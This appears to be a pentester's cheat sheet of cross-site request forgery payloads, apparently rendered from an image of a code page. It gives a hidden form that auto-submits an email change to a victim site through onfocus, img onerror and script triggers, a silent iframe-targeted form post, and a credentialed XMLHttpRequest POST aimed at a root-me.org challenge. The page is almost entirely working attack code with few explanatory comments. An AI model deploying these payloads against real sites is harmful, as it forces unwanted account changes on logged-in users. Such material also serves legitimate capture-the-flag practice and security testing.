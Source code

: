 

            <html>
              <body>
              <script>history.pushState('', '', '/')</script>
                <form action="https://victim.net/email/change-email" id="csrfform">
                  <input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /> <!-- Way 1 to autosubmit -->
                  <input type="submit" value="Submit request" />
                  <img src=x onerror="csrfform.submit();" /> <!-- Way 2 to autosubmit -->
                </form>
                <script>
                  document.forms[0].submit(); //Way 3 to autosubmit
                </script>
              </body>
            </html>


# Form POST request through iframe

          <!-- 
          The request is sent through the iframe withuot reloading the page 
          -->
          <html>
            <body>
            <iframe style="display:none" name="csrfframe"></iframe> 
              <form action="/change-email" id="csrfform" target="csrfframe">
                <input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" />
                <input type="submit" value="Submit request" />
              </form>
              <script>
                document.forms[0].submit();
              </script>
            </body>
          </html>

# Ajax POST request

              <script>
              var xh;
              if (window.XMLHttpRequest)
                {// code for IE7+, Firefox, Chrome, Opera, Safari
                xh=new XMLHttpRequest();
                }
              else
                {// code for IE6, IE5
                xh=new ActiveXObject("Microsoft.XMLHTTP");
                }
              xh.withCredentials = true;
              xh.open("POST","http://challenge01.root-me.org/web-client/ch22/?action=profile");
              xh.setRequestHeader('Content-type', 'application/x-www-form-urlencoded'); //to send proper header info (optional, but good to have as it may sometimes not work without this)
              xh.send("username=abcd&status=on");
              </script>
